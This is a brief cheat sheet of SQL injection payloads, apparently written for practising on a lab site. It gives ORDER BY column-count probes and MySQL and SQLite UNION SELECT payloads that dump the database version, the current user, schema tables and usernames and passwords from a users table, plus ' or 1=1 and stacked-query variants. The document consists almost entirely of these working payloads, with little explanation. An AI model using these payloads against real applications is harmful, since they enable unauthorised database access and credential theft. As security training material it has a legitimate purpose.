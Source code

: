 tests site from: https://cylab.be/resources/cylab-play

to know columns count:

```
 ' order by 1 #
 ' order by 2 #
 ' order by 3 #
 ' order by 4 # // this one error out, so there is 3 columns
```

mysql injection:
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

```
' union select null,null,version() #
' union select null,null,user() #
' union select null,null,database() #
' union select null,username,password from users #
' union select null,table_schema,table_name FROM information_schema.tables #
' union select null,table_name,column_name FROM information_schema.columns #

'; select version() #
' or 1=1
```

sqlite injection:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

```
' union select null,null,sqlite_version() --
' union select null,username,password from users --
' union select name from sqlite_schema --

'; select sql from sqlite_schema --
' or 1=1
```
